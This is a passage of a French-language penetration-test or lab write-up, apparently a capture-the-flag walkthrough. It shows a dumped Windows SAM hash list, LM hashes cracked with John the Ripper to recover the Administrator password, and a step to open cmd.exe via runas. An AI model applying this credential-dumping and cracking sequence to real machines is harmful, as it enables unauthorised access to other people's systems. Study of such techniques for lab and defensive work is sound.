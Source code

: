 ```plain
[*] Dumping password hashes...

Administrator:500:921988ba001dc8e1e1c7c53891cb0efa:e1270db1dd8bf1e32725729695aa1feb:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:0d5a495be0d12c5c0001826d12a103db:e63e0754cf4f25edc0918ca39e06cb46:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:460935cc09bcbec00cc9b37788db5a54:::
bob:1003:66e5d5ae82299cb6aad3b435b51404ee:42865c72994c34e54d4c5d659fc15b10:::
IUSR_BOBBY:1004:080d6ebbb9f70bc7b9fa1681c900a5b1:2c30939c170e28b5becd8c652425ea85:::
IWAM_BOBBY:1005:519481f2f1ae0a2fa91d88c577b32453:713317229556300b105c82332af604b1:::
```

Là on est entré comme dans du beurre :)  

A partir de là on a le choix entre la méthode old-school de cassage de hash (a.k.a [classic one way ticket to Fuckneckville](https://www.youtube.com/watch?v=H7nBDONk4FA)) :  

```plain
>/opt/jtr/john hash.txt                                                                                                                                                        
Warning: detected hash type "lm", but the string is also recognized as "nt2"                                                                                                                                   
Use the "--format=nt2" option to force loading these as that type instead                                                                                                                                      
Warning: detected hash type "lm", but the string is also recognized as "nt"                                                                                                                                    
Use the "--format=nt" option to force loading these as that type instead                                                                                                                                       
Loaded 2 password hashes with no different salts (LM DES [128/128 BS AVX-16])                                                                                                                                  
D12345           (Administrator:2)                                                                                                                                                                             
guesses: 1  time: 0:00:01:12 0.04% (3)  c/s: 47036K  trying: 3LUYN4N - 3LUYPTC                                                                                                                                 
P@SSW0R          (Administrator:1)                                                                                                                                                                             
guesses: 2  time: 0:01:25:27 DONE (Wed Mar 26 15:06:06 2014)  c/s: 46616K  trying: P@SSWEG - P@SSWAU                                                                                                           
Warning: passwords printed above might be partial                                                                                                                                                              
Use the "--show" option to display all of the cracked passwords reliably
```

Le mot de passe est p@ssword12345, on peut lancer un *cmd.exe* via *runas*.  
